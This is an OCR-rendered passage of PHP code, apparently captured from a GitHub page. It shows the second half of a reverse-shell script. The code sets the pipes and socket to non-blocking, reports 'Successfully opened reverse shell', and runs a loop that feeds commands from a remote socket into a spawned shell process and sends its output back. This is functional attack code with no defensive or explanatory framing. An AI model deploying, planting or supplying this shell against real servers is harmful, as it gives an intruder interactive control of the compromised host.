 ```bash
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
